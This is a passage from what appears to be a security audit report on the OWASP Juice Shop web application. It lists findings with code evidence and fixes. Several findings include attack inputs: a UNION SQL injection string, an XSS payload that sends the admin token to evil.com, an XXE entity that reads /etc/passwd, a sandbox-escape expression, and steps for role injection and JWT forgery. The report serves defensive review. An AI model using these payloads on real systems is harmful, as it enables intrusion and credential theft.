**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/address.ts:11

export function getAddress () {
  return async (req: Request, res: Response) => {
    const addresses = await AddressModel.findAll({ where: { UserId: req.body.UserId } })
    res.status(200).json({ status: 'success', data: addresses })
  }
}
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-021](#m-021) — Enforce object-level (ownership) authorization

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-009"></a><a id="f-009"></a>
#### F-009 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `routes/search.ts:23`

**Issue:** The product search handler at `routes/search.ts:23` builds a raw SQL query by interpolating `req.query.q` directly into the SELECT string: `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`. No parameterization or prepared statement is used.

An unauthenticated attacker submits a UNION-based payload (e.g., `q=')) UNION SELECT * FROM Users--`) to read all rows from the Users table, recovering email addresses and `MD5` password hashes. The same path enables schema enumeration via `sqlite_master`.

Unauthenticated full database read including all user credentials, order data, and schema - leading to account takeover when combined with `MD5` rainbow table attacks.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `models.sequelize.query()` at `routes/search.ts:23` uses template-literal interpolation of `criteria` (derived from `req.query.q`) with no `replacements:` or `QueryTypes.SELECT` parameterization.

```typescript
// routes/search.ts:23
  return (req: Request, res: Response, next: NextFunction) => {
    let criteria: any = req.query.q === 'undefined' ? '' : req.query.q ?? ''
    criteria = (criteria.length <= 200) ? criteria : criteria.substring(0, 200)
    models.sequelize.query(`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`) // vuln-code-snippet vuln-line unionSql
      .then(([products]: any) => {
        const dataString = JSON.stringify(products)
        if (challengeUtils.notSolved(challenges.unionSqlInjectionChallenge)) { // vuln-code-snippet hide-start
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❶ [M-022](#m-022) — Use parameterized database queries

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-011"></a><a id="f-011"></a>
#### F-011 · Incorrect Authorization

**Severity:** 🔴 Critical  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `lib/insecurity.ts:54`

**Issue:** With the RSA private key available at `lib/insecurity.ts:23`, an attacker constructs a JWT payload `{ data: { id: <any>, role: 'admin', email: 'attacker@x.com' } }` and signs it with `jwt.sign(payload, privateKey, { algorithm: 'RS256' })`. The `isAuthorized()` middleware at line 54 verifies the token against `publicKey` - which corresponds to the committed private key - and accepts it.

The role claim is trusted without cross-checking against the database. `deluxeToken()` at line 151 derives an HMAC from `email + 'deluxe'` using the same hardcoded `privateKey`; an attacker who knows a user's email can compute this value and include it in their forged token to pass the `isDeluxe()` check at line 169.

Attacker escalates from unauthenticated or regular-user to admin or deluxe-subscriber privileges without valid credentials.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - `isDeluxe()` at `lib/insecurity.ts:169` validates `decodedToken?.data?.deluxeToken === deluxeToken(decodedToken?.data?.email)` - a value computable by anyone with the hardcoded private key.

```typescript
// lib/insecurity.ts:54
  return str
}

export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)
export const denyAll = () => expressJwt({ secret: '' + Math.random() } as any)
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
```

**Fix:** ❶ [M-024](#m-024) — Enforce correct server-side authorization

**Classification:** Broken Access Control · [CWE-863](https://cwe.mitre.org/data/definitions/863.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · Code Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `routes/b2bOrder.ts:23`

**Issue:** The B2B order endpoint at `/b2b/v2/orders` (`routes/b2bOrder.ts:23`) executes attacker-controlled `body.orderLinesData` inside `vm.runInContext('safeEval(orderLinesData)', sandbox)`. The `notevil@1.3.3` library is a known-incomplete sandbox that can be escaped via prototype manipulation (e.g. `({}).constructor.constructor('return process')().exit(1)`).

The endpoint requires a valid JWT (`server.ts:423`) but any authenticated user can reach it. A successful escape executes arbitrary `Node.js` code in the server process - including reading `/etc/passwd`, writing files, spawning shells, or making outbound network connections.

Server-side remote code execution as the `Node.js` process user, enabling data exfiltration, file system manipulation, and lateral movement.

**Root cause:** User-supplied data reaches a server-side code-execution sink (`eval`, sandbox primitives, deserialization, prototype-pollution gadgets) and breaks out into arbitrary native execution.

**Evidence:** ✓ verified - `vm.runInContext` wrapping `safeEval()` with attacker-controlled orderLinesData; `notevil@1.3.3` has no defense against constructor chain escapes.

```typescript
// routes/b2bOrder.ts:23
      try {
        const sandbox = { safeEval, orderLinesData }
        vm.createContext(sandbox)
        vm.runInContext('safeEval(orderLinesData)', sandbox, { timeout: 2000 })
        res.json({ cid: body.cid, orderNo: uniqueOrderNumber(), paymentDue: dateTwoWeeksFromNow() })
      } catch (err) {
        if (utils.getErrorMessage(err).match(/Script execution timed out.*/) != null) {
```

**Fix:** Replace runtime code generation (eval/Function/template render) with a data-only execution path → ❶ [M-025](#m-025) — Remove server-side evaluation of untrusted input

**Classification:** Code Execution via Unsafe Deserialization or Eval · [CWE-94](https://cwe.mitre.org/data/definitions/94.html) · [OWASP A08:2021](https://owasp.org/Top10/A08_2021/)

<a id="t-013"></a><a id="f-013"></a>
#### F-013 · Mass Assignment Role Injection

**Severity:** 🔴 Critical - reaches a privileged operation on an unauthenticated endpoint  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `server.ts:419`

**Issue:** The finale-rest auto-generated `POST /api/Users` endpoint persists all body fields to the UserModel without stripping privileged attributes. Sequelize's `create()` called by finale-rest accepts the `role` field from the request body.

An attacker sends `POST /api/Users` with `{"email":"attacker@evil.com","password":"pass","role":"admin"}`. The account is created with `role: admin`, providing full administrative access on the next login.

Any unauthenticated user can self-register an admin account and gain full application control.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ◌ ambiguous - `finale.resource()` at `server.ts:500` generates POST `/api/Users` without field allowlist; the role column is writable by unauthenticated POST callers.

```typescript
// server.ts:419
    }
    next()
  })
  app.post('/api/Users', verify.registerAdminChallenge())
  app.post('/api/Users', verify.passwordRepeatChallenge()) // vuln-code-snippet hide-end
  app.post('/api/Users', verify.emptyUserRegistration())
  /* Unauthorized users are not allowed to access B2B API */
```

**Fix:** ❸ [M-001](#m-001) — Manual review: verify Mass Assignment Role Injection via User Registration

**Classification:** Broken Access Control · [CWE-915](https://cwe.mitre.org/data/definitions/915.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · Cross-Site Scripting

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/administration/administration.component.ts:78`

**Issue:** Calls `this.sanitizer.bypassSecurityTrustHtml(feedback.comment)` on every feedback record fetched from `/api/Feedbacks`, and line 60 wraps `user.email` in a `<span>` interpolated via the same bypass. Both are bound to `[innerHTML]` in `administration.component.html` (lines 26 and 60 of the template).

An unauthenticated attacker submits a POST to `/api/Feedbacks` with `comment: '<script>fetch("https://evil.com/?"+localStorage.getItem("token"))</script>'`. When an admin next opens the `/administration` panel, the stored script executes in the admin's browser, exfiltrating the admin JWT.

Stored XSS in the admin panel allows a low-privilege attacker to silently exfiltrate the admin JWT and take over the administrator account.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `administration.component.ts:78` calls `bypassSecurityTrustHtml(feedback.comment)` and line 60 calls `bypassSecurityTrustHtml(...)` on user.email, both bound to `[innerHTML]` in the admin panel template.

```typescript
// frontend/src/app/administration/administration.component.ts:78
      next: (feedbacks) => {
        this.feedbackDataSource = feedbacks
        for (const feedback of this.feedbackDataSource) {
          feedback.comment = this.sanitizer.bypassSecurityTrustHtml(feedback.comment)
        }
        this.feedbackDataSource = new MatTableDataSource(this.feedbackDataSource)
        this.feedbackDataSource.paginator = this.paginatorFeedb
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❶ [M-014](#m-014) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

### 🟠 High (29)

<a id="t-029"></a><a id="f-029"></a>
#### F-029 · Hardcoded Cryptographic Key

**Severity:** 🟠 High - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `server.ts:278`

**Issue:** The Express server at `server.ts:277-278` registers `/encryptionkeys` (directory listing) and `/encryptionkeys/:file` (file download) with no authentication middleware. `routes/keyServer.ts:14` calls `res.sendFile(path.resolve('encryptionkeys/', file))` for any file in the directory including `jwt.pub` (the RSA public key used to verify JWTs) and `premium.key` (used for deluxe membership token generation).

An unauthenticated attacker fetches `GET /encryptionkeys/jwt.pub` to retrieve the public key, then attempts an RSA-to-HMAC algorithm confusion attack: signing a forged JWT with the public key as an HMAC-SHA256 secret and setting `alg: HS256`, exploiting JWT libraries that accept algorithm changes. RSA public key exposure enables JWT algorithm confusion attacks; `premium.key` exposure enables forging deluxe membership tokens granting premium features to unpaid users.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `app.use('/encryptionkeys/:file', serveKeyFiles())` at `server.ts:278` has no `isAuthorized` or authentication middleware chained before `serveKeyFiles()`; `routes/keyServer.ts:14` serves any non-slash-containing filename without auth check.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ❷ [M-036](#m-036) — Move cryptographic keys to a managed secret store

**Classification:** Cryptographic Failures · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · Systemic Unverified Remote Code Execution

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `.github/workflows/ci.yml:161`

**Issue:** The `coverallsapp/github-action@v2` step resolves the mutable `v2` tag at execution time, meaning the SHA it executes can change without any change to the workflow file. An attacker who compromises the `coverallsapp/github-action` repository or gains write access to its tags can push malicious code under the same `@v2` tag.

On the next CI run triggered by any push to any non-ignored branch, the hijacked action executes in the runner environment with access to `secrets.GITHUB_TOKEN` (line 163). A compromised or tag-hijacked version of `coverallsapp/github-action` runs with GITHUB_TOKEN write access and can exfiltrate secrets, push malicious commits, or tamper with artifacts.

**Evidence:** ✓ verified - `coverallsapp/github-action@v2` on line 161 of `ci.yml` uses a mutable tag reference rather than a SHA digest, making the resolved action code silently substitutable.

```yaml
// .github/workflows/ci.yml:161
          name: api-test-lcov
      - name: "Publish coverage to Coveralls"
        uses: coverallsapp/github-action@v2
        with:
          github-token: ${{ secrets.GITHUB_TOKEN }}
```

**Fix:** ❷ [M-015](#m-015) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-014"></a><a id="f-014"></a>
#### F-014 · Missing Authentication

**Severity:** 🟠 High - reaches a privileged operation on an unauthenticated endpoint  ·  **Component:** [C-01](#c-01) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/app.guard.ts:52`

**Issue:** The Angular router uses `AdminGuard` (`app.guard.ts:52-60`) and `AccountingGuard` (`app.guard.ts:64-76`) to protect `/administration` and `/accounting` routes. Both guards call `loginGuard.tokenDecode()` which calls `jwtDecode()` to parse the JWT from localStorage.

Neither guard communicates with the server; they trust whatever JWT is in localStorage. Any attacker able to place a crafted or stolen JWT in localStorage gains access to the admin panel UI and can enumerate all users and delete feedback.

**Evidence:** ✓ verified - `app.guard.ts:52`-57 decodes the JWT client-side and checks `payload.data.role === roles.admin` without any server-side token re-validation.

```typescript
// frontend/src/app/app.guard.ts:52


  canActivate () {
    const payload = this.loginGuard.tokenDecode()
    if (payload?.data && payload.data.role === roles.admin) {
```

**Fix:** ❷ [M-026](#m-026) — Enforce admin authorization server-side on every API call, not via client-side JWT decode

**Classification:** Broken Authentication · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-015"></a><a id="f-015"></a>
#### F-015 · Weak Password Recovery Mechanism

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `routes/resetPassword.ts:41`

**Issue:** `routes/resetPassword.ts` resets a user's password by verifying a security question answer: `security.hmac(answer) === data.answer`. The HMAC key is hardcoded as `'pa4qacea4VK9t9nGv7yZtwmj'` at `lib/insecurity.ts:44`.

Security questions for pre-seeded users have answers derivable from public OSINT - Jim's mother's name (`Samuel`), Bender's zip code (`Stop'n'Drop`), Bjoern's birth city (`West-2082`). Attacker resets any target account's password by guessing or researching the security question answer, then authenticates as that user.

**Evidence:** ✓ verified - `SecurityAnswerModel.findOne()` is matched against `security.hmac(answer)` with no attempt counter or lockout, and the HMAC key is hardcoded.

```typescript
// routes/resetPassword.ts:41
        }]
      })
      if ((data != null) && security.hmac(answer) === data.answer) {
        const user = await UserModel.findByPk(data.UserId)
        if (user) {
```

**Fix:** ❸ [M-027](#m-027) — Replace knowledge-based security questions with email-based OTP password reset

**Classification:** Broken Authentication · [CWE-640](https://cwe.mitre.org/data/definitions/640.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-016"></a><a id="f-016"></a>
#### F-016 · Missing Authentication

**Severity:** 🟠 High - reaches a privileged operation on an unauthenticated endpoint  ·  **Component:** [C-07](#c-07) - Real-time WebSocket Channel  ·  **Location:** `lib/startup/registerWebsocketEvents.ts:24`

**Instances (2):** `lib/startup/registerWebsocketEvents.ts:24`, `lib/startup/registerWebsocketEvents.ts:41`

**Issue:** The Socket\.IO server at `lib/startup/registerWebsocketEvents.ts:24` accepts every incoming connection without validating any session token, JWT, or credential. The CORS origin is hardcoded to `http://localhost:4200` (line 20), but this constraint applies only to browser CORS preflight and is trivially bypassed by non-browser clients (curl, Python scripts, direct WebSocket libraries).

Any internet-facing attacker can open an unauthenticated WebSocket connection and emit any of the registered message events (`notification received`, `verifyLocalXssChallenge`, `verifySvgInjectionChallenge`, `verifyCloseNotificationsChallenge`) impersonating a legitimate authenticated user session. An unauthenticated attacker gains full access to all WebSocket message handlers, able to forge challenge verifications and manipulate shared server state without any identity check.

**Evidence:** ✓ verified - `io.on('connection', (socket: any) => { ... })` at line 24 contains no middleware guard, token extraction, or session verification before granting the socket access to all registered event handlers.

```typescript
// lib/startup/registerWebsocketEvents.ts:24
  globalWithSocketIO.io = io

  io.on('connection', (socket: any) => {
    if (firstConnectedSocket === null) {
      socket.emit('server started')
```

**Fix:** ❷ [M-028](#m-028) — Require session token validation in Socket\.IO connection middleware before accepting any socket

**Classification:** Insecure Real-Time Channel · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-017"></a><a id="f-017"></a>
#### F-017 · Stored XSS

**Severity:** 🟠 High  ·  **Component:** [C-06](#c-06) - Authentication & Session Surface  ·  **Location:** `routes/saveLoginIp.ts:18`

**Issue:** `routes/saveLoginIp.ts:18` reads `req.headers['true-client-ip']` and, when the `httpHeaderXssChallenge` is enabled, stores the value directly into `UserModel.lastLoginIp` without sanitization. When the challenge flag is disabled, `security.sanitizeSecure()` is called - but this branch exists specifically to permit the XSS payload through when challenges are active.

A production-intent deployment that enables challenge mode (or any deployment where `lastLoginIp` is later rendered in an admin interface) propagates the stored `True-Client-IP` value containing `<iframe src="javascript:alert(\`xss\`)">` into the DOM. An attacker who can trigger admin viewing of the `lastLoginIp` field achieves stored XSS in the admin context - session hijack or admin credential exfiltration.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `saveLoginIp.ts:18` stores the raw `True-Client-IP` header into the Users table without sanitization when `httpHeaderXssChallenge` is enabled, and the sanitization branch is explicitly bypassed for that code path.

```typescript
// routes/saveLoginIp.ts:18
    const loggedInUser = security.authenticatedUsers.from(req)
    if (loggedInUser !== undefined) {
      let lastLoginIp = req.headers['true-client-ip']
      if (Array.isArray(lastLoginIp)) {
        lastLoginIp = lastLoginIp[0]
```

**Fix:** Output-encode untrusted strings at every sink and remove all `bypassSecurityTrustHtml` calls → ❷ [M-029](#m-029) — Encode output instead of bypassing the framework sanitizer

**Classification:** Cross-Site Scripting (XSS) · [CWE-80](https://cwe.mitre.org/data/definitions/80.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-018"></a><a id="f-018"></a>
#### F-018 · Missing Rate Limiting (Brute-Force)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `server.ts:346`

**Issue:** The `rateLimit` middleware on `/rest/user/reset-password` at `server.ts:343` uses a custom key generator: `headers['X-Forwarded-For'] ?? ip`.

`X-Forwarded-For` is an attacker-controlled request header. Attacker effectively removes the rate limit on password reset, enabling unlimited attempts to brute force a user's security answer and take over the account.

**Evidence:** ✓ verified - `keyGenerator` at `server.ts:346` reads `headers['X-Forwarded-For']` directly rather than using `req.ip` from the trusted-proxy chain, making the rate limit key attacker-controlled.

```typescript
// server.ts:346
    windowMs: 5 * 60 * 1000,
    max: 100,
    keyGenerator ({ headers, ip }: { headers: any, ip: any }) { return headers['X-Forwarded-For'] ?? ip } // vuln-code-snippet vuln-line resetPasswordMortyChallenge
  }))
  // vuln-code-snippet end resetPasswordMortyChallenge
```

**Fix:** Apply rate limiting and lock-out thresholds on authentication endpoints → ❷ [M-030](#m-030) — Rate-limit and lock out repeated authentication attempts

**Classification:** Broken Authentication · [CWE-307](https://cwe.mitre.org/data/definitions/307.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-020"></a><a id="f-020"></a>
#### F-020 · XML External Entity (XXE)

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `routes/fileUpload.ts:83`

**Issue:** At `routes/fileUpload.ts:83`, uploaded XML files are parsed with `libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })`. The `noent: true` flag instructs libxmljs2 to resolve external entities.

An attacker uploads a crafted XML file containing `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>`. Local file disclosure (e.g. `/etc/passwd`, private keys) and potential SSRF to internal services via external entity URL.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterization or schema validation.

**Evidence:** ✓ verified - `libxml.parseXml()` called with noent: true at `routes/fileUpload.ts:83`; parsed output included in error response body.

```typescript
// routes/fileUpload.ts:83
        const sandbox = { libxml, data }
        vm.createContext(sandbox)
        const xmlDoc = vm.runInContext('libxml.parseXml(data, { noblanks: true, noent: true, nocdata: true })', sandbox, { timeout: 2000 })
        const xmlString = xmlDoc.toString(false)
        challengeUtils.solveIf(challenges.xxeFileDisclosureChallenge, () => { return (utils.matchesEtcPasswdFile(xmlString) || utils.matchesSystemIniFile(xmlString)) })
```

**Fix:** Disable external entity resolution on every XML parser and reject DOCTYPE declarations → ❷ [M-032](#m-032) — Disable XML external entity (XXE) resolution

**Classification:** Injection · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-021"></a><a id="f-021"></a>
#### F-021 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-03](#c-03) - Data Layer (SQLite + File Store)  ·  **Location:** `models/index.ts:39`

**Issue:** Sequelize is initialized with `logging: false` at `models/index.ts:39`, suppressing all SQL query logs. Combined with the absence of a separate audit log (no write to any append-only table or log sink on sensitive operations), sensitive mutations - user password changes, role updates, order modifications, review tampering - leave no forensic trace.

An insider or a compromised session that modifies user roles or deletes records cannot be reconstructed from logs. Post-incident forensic reconstruction of data-layer attacks (SQL injection, privilege escalation via role field tampering) is impossible; attackers cannot be attributed.

**Evidence:** ✓ verified - `new Sequelize(..., { logging: false })` at `models/index.ts:39` explicitly disables query-level audit logging; no Sequelize hooks or middleware write to a separate audit log on sensitive model events.

```typescript
// models/index.ts:39
  transactionType: Transaction.TYPES.IMMEDIATE,
  storage: 'data/juiceshop.sqlite',
  logging: false
})
AddressModelInit(sequelize)
```

**Fix:** ❷ [M-033](#m-033) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-022"></a><a id="f-022"></a>
#### F-022 · Insufficient Logging

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `server.ts:338`

**Issue:** The application logs HTTP requests via Morgan (`server.ts:338`) in combined format to rotating files in `logs/`. No structured security audit log is written for authentication events (login success/failure, 2FA events, JWT forgery detection), authorization failures (403 responses from `security.isAuthorized()`, `security.denyAll()`), or sensitive data mutations (order placement, profile update, wallet balance changes).

The Morgan access log captures only HTTP-layer metadata. Successful attacks leave no actor-attributable record; forensic investigation after a breach cannot establish what data was accessed or modified, by whom, and when.

**Evidence:** ✓ verified - `server.ts:338` uses morgan('combined') for HTTP logging only; no `security.audit()` or equivalent call appears on login success, auth failure, or admin action paths.

```typescript
// server.ts:338
    max_logs: '2d'
  })
  app.use(morgan('combined', { stream: accessLogStream }))

  // vuln-code-snippet start resetPasswordMortyChallenge
```

**Fix:** ❷ [M-034](#m-034) — Add security audit logging

**Classification:** Missing Audit Logging & Accountability · [CWE-778](https://cwe.mitre.org/data/definitions/778.html) · [OWASP A09:2021](https://owasp.org/Top10/A09_2021/)

<a id="t-023"></a><a id="f-023"></a>
#### F-023 · Insecure Storage of Sensitive Information

**Severity:** 🟠 High  ·  **Component:** [C-01](#c-01) - Angular SPA Frontend  ·  **Location:** `frontend/src/app/login/login.component.ts:101`

**Issue:** `login.component.ts:101` and `oauth.component.ts:51` both call `localStorage.setItem('token', authentication.token)`. The request interceptor at `request.interceptor.ts:13` reads the token back from localStorage for every HTTP request.

localStorage is readable by any JavaScript executing in the same origin. XSS exfiltration of the JWT from localStorage grants full authenticated access as the victim user, including account takeover, order manipulation, and - if the victim is admin - full admin control.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitization; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `login.component.ts:101` stores the JWT in localStorage; `request.interceptor.ts:13` reads it back for all API requests; multiple confirmed XSS sinks in this component can read and exfiltrate it.

**Fix:** ❸ [M-035](#m-035) — Store session tokens in HttpOnly, Secure cookies

**Classification:** Insecure Client-Side Storage · [CWE-922](https://cwe.mitre.org/data/definitions/922.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-024"></a><a id="f-024"></a>
#### F-024 · Uses --unsafe-perm install flag

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `Dockerfile:5`

**Issue:** IAC-004 triggered in Dockerfile line 5: --unsafe-perm runs postinstall scripts as root, widening supply-chain compromise scope.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:5
WORKDIR /juice-shop
RUN npm i -g typescript ts-node
RUN npm install --omit=dev --unsafe-perm
RUN npm dedupe --omit=dev
RUN rm -rf frontend/node_modules
```

**Fix:** ❷ [M-003](#m-003) — Drop unnecessary privileges in build and runtime

**Classification:** Error Information Disclosure · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-025"></a><a id="f-025"></a>
#### F-025 · Incorrect Permission Assignment

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `.github/workflows/update-news-www.yml:1`

**Instances (11):** `.github/workflows/update-news-www.yml:1`, `.github/workflows/rebase.yml:1`, `.github/workflows/update-challenges-ebook.yml:1`, `.github/workflows/release.yml:1`, `.github/workflows/zap_scan.yml:1`, `.github/workflows/codeql-analysis.yml:1`, `.github/workflows/stale.yml:1`, `.github/workflows/frontend-bundle-analysis.yml:1` … (+3 more)

**Issue:** IAC-010 triggered in .github/workflows/update-news-www.yml: no top-level 'permissions:' block found. Without explicit permissions, the workflow inherits repo defaults (often write-all) for GITHUB_TOKEN.

**Root cause:** Authorization checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - A sensitive resource is created with permissive default permissions.

```yaml
// .github/workflows/update-news-www.yml:1
name: "Update news on owasp-juice.shop"

on:
```

**Fix:** ❷ [M-004](#m-004) — Apply least-privilege permissions

**Classification:** Error Information Disclosure · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

<a id="t-026"></a><a id="f-026"></a>
#### F-026 · Third-party GitHub Action not pinned

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `.github/workflows/codeql-analysis.yml:23`

**Instances (3):** `.github/workflows/codeql-analysis.yml:23`, `.github/workflows/codeql-analysis.yml:34`, `.github/workflows/codeql-analysis.yml:36`

**Issue:** IAC-011 triggered in .github/workflows/codeql-analysis.yml line 23: action 'github/codeql-action/init@v3' uses a tag/branch reference, not a 40-char commit SHA. A compromised publisher can retroactively inject malicious code.

**Evidence:** ✓ verified

```yaml
// .github/workflows/codeql-analysis.yml:23
      uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 #v4.2.2
    - name: Initialize CodeQL
      uses: github/codeql-action/init@v3
      with:
        languages: ${{ matrix.language }}
```

**Fix:** ❷ [M-005](#m-005) — Pin third-party dependencies to immutable versions

**Classification:** Supply-Chain Integrity · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-027"></a><a id="f-027"></a>
#### F-027 · Use of Unmaintained Third-Party Components

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `Dockerfile:1`

**Instances (2):** `Dockerfile:1`, `test/smoke/Dockerfile:1`

**Issue:** IAC-001 triggered in Dockerfile: base image uses tag-only reference 'FROM node:24'. A malicious publisher could substitute the image at that tag. Digest-pinning (@sha256:) ensures exact image bytes on every build.

**Evidence:** ✓ verified

```dockerfile
// Dockerfile:1
FROM node:24 AS installer
COPY . /juice-shop
WORKDIR /juice-shop
```

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-006](#m-006) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-028"></a><a id="f-028"></a>
#### F-028 · ~~Use of Unmaintained Third-Party Components~~ ⚠

**Severity:** 🟠 High  ·  **Component:** [C-05](#c-05) - CI/CD Pipeline (GitHub Actions)  ·  **Location:** `package-lock.json:1`

**Issue:** IAC-050 triggered: `package-lock.json` not found. Without a lockfile, npm install installs different transitive versions on each run - supply-chain attacks become undetectable.

**Evidence:** ⚠ refuted

**Fix:** Replace the unmaintained dependency with a maintained equivalent or fork it under ownership → ❷ [M-007](#m-007) — Pin the container base image to an immutable digest

**Classification:** Supply-Chain Integrity · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html) · [OWASP A06:2021](https://owasp.org/Top10/A06_2021/)

<a id="t-030"></a><a id="f-030"></a>
#### F-030 · Sensitive Data in Log Files

**Severity:** 🟠 High  ·  **Component:** [C-02](#c-02) - Express Backend API  ·  **Location:** `server.ts:281`

**Issue:** At `server.ts:281-283`, the Morgan access logs at `logs/access.log.*` are served publicly via `/support/logs` with directory listing enabled and no authentication guard. The combined Morgan log format records full request URLs (including query strings, which may contain session tokens, user IDs, or sensitive search terms), client IP addresses, user-agent strings, response codes, and response sizes.

